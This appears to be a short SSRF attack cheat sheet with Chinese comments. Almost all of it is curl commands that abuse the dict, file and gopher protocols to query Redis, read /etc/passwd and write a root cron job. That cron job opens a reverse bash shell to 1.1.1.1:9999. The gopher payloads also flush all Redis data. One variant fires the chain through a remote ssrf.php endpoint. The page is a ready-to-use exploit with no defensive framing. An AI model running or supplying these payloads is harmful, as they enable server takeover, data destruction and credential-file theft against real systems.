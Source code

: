 ```
# dict protocol (操作Redis)
# 本地测试
curl -vvv 'dict://127.0.0.1:6379/info'
```

```
# file protocol (任意文件读取)
# 本地测试
curl -vvv 'file:///etc/passwd'
```

```
# gopher protocol (利用redis写入var/spool/cron实现反弹Bash)  注意:会清空redis的数据!
# 本地测试 方式1
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

# 本地测试 方式2
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

# 远程测试 方式3
curl -v 'http://xxx.com/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F1.1.1.1%2F9999%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```
